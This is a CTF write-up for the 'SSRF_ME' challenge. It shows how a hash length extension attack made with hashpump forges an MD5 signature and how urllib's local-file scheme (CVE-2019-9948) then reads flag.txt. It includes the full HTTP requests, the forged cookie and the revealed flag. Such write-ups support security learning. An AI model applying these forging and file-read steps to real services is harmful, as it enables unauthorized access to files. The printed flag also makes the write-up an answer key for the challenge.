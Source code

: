 [中文](./README_zh.md) [English](./README.md)

[docker](./docker.zip)

# SSRF_ME WriteUps

## Expected Solution:

Hash Length Extension Attacks+CVE-2019-9948(urllib)

---
## WriteUp:
code define two methods,`scan` and `read`. both methods use `md5(secert_key + param + action)` encoding. and `/genesign` provide `sign` of `scan` method.


1. get `scan` method `sign` value.
```
GET /geneSign?param=local-file:flag.txt HTTP/1.1
Host: 139.180.128.86



HTTP/1.1 200 OK
Server: nginx/1.15.8
Content-Length: 32
Connection: close

51796b52dd6e1108c89b7d5277d3ae0a
```
2. use `hashpump` generate new `sign` value that contain `scan` and `read` methods.
```
$ hashpump
Input Signature: 51796b52dd6e1108c89b7d5277d3ae0a
Input Data: local-file:flag.txtscan
Input Key Length: 16
Input Data to Add: read
eafd6ccd634ec29886babc843f1d8b86                                                                                        
local-file:flag.txtscan\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x008\x01\x00\x00\x00\x00\x00\x00read
```
3. change `\x` into `%` in new param,and sumit them.
```
GET /De1ta?param=local-file:flag.txt HTTP/1.1
Host: 139.180.128.86
Cookie:action=scan%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%008%01%00%00%00%00%00%00read;sign=eafd6ccd634ec29886babc843f1d8b86
Connection: close




HTTP/1.1 200 OK
Server: nginx/1.15.8
Content-Type: text/html; charset=utf-8
Content-Length: 65
Connection: close

{"code": 200, "data": "de1ctf{27782fcffbb7d00309a93bc49b74ca26}"}
```


## In the Last:
Due to my Careless,Sorry about the unexpected solution of this challenge.Hope you have a great time in the game.
